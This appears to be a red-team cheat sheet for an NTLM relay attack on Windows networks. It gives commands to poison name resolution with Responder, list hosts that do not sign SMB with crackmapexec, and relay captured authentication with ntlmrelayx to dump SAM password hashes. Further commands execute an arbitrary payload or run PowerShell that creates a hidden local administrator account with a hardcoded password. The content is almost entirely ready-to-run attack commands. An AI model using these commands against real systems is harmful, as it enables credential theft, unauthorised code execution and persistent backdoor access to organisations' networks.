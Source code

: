 Open firewall to connecting systems

```
ufw allow from <CIDR>
```

Change Responder Config
Turn Off SMB and HTTP in responder.conf

/etc/responder/Responder.conf

SQL = On
**SMB = Off**
RDP = On
Kerberos = On
FTP = On
POP = On
SMTP = On
IMAP = On
**HTTP = Off**

Generate a list of SMB no-sign systems

```
crackmapexec smb <CIDR> --gen-relay-list ~/Desktop/NoSign.txt
```

Open two terminal sessions. In one start responder.

```
responder -I <interface> -r -d -w
```

In the second start ntlmrelayx.

```
ntlmrelay.py -tf ~/Desktop/NoSign.txt -smb2support -of ~/Desktop/NTLMhashes.txt
```

By default this will dump the SAM if the user is a local/domain admin.

If a payload is known good on the network, could also execute a payload with -e.

```
ntlmrelay.py -tf ~/Desktop/NoSign.txt -smb2support -of ~/Desktop/NTLMhashes.txt -e ~/Desktop/Payload.exe
```

Alternatively, could execute a system command using -c

```
ntlmrelay.py -tf ~/Desktop/NoSign.txt -smb2support -of ~/Desktop/NTLMhashes.txt -c powershell -ep bypass; $Password = ConvertTo-SecureString "CISAster2021!" -AsPlainText -Force; New-LocalUser "DHStest" -Password $Password; Add-LocalGroupMember -Group "Administrators" -Member "DHStest"
```